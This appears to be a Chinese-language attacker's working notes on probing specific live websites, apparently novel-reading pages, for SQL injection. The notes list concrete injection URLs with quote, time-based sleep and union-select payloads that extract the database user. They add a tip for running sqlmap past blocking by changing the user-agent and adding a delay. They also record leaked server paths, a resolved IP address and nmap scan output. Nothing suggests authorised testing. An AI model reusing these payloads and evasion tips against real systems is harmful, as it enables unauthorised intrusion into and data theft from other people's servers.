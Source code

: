 目录扫描发现 http://2nto4x.ijhz.cn/index.php/login/
有报错

![](https://i.imgur.com/nCSxL5V.png)

选取第pageid=37，拉到最底下发现阅读下一章，点进去是一个，新的网址
https://s6738.zhangduyi.com/spread/index/480282



## 注入点
http://2nto4x.ijhz.cn/luodi/xiaoshuo/?pageid=5%27
http://zc8zw8.opaovk.cn/luodi/xiaoshuo/?pageid=40%20and%20sleep(3)%23


**换个 user-agent 就能跑 sqlmap 再加个 --delay=2**

有明显的SQL注入，貌似没有任何过滤
一直有js脚本在刷新

Warning: mysqli_fetch_array() expects parameter 1 to be mysqli_result, boolean given in /www/wwwroot/alihk.j391.com/luodi/xiaoshuo/index.php on line 14

注入 and 0 、 sleep() 有回显

**由报错信息可知，winserver + mysql + php 5.6 + ThinkPHP 3.1.3**

## SQLi
http://zc8zw8.opaovk.cn/luodi/xiaoshuo/?pageid=4%20union%20select%201,2,3,4,5,6,7,8,9,10
order by 10
if(length("union")=5,%201,%20sleep(3)) 检测可知，union 并没有被过滤

http://zc8zw8.opaovk.cn/luodi/xiaoshuo/?pageid=41%20union%20select%201,2,3,4,5,6,user(),8,9,10%20limit%201,1--+




报错信息：
```
/www/wwwroot/alihk.j391.com/luodi/xiaoshuo/index.php
FILE: /www/wwwroot/alihk.j391.com/ThinkPHP/Common/functions.php 
```

http://zc8zw8.opaovk.cn/luodi/xiaoshuo/?pageid=40#

解析到ip：47.244.137.43

**nmap 再来一波**
```shell
➜  ~ nmap -sV -A 47.244.137.43              
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-14 04:34 EDT
Nmap scan report for 47.244.137.43
Host is up (0.050s latency).
Not shown: 994 filtered ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      Pure-FTPd
80/tcp   open  http     nginx
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx
|_http-title: TestPage184
443/tcp  open  ssl/http nginx
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx
```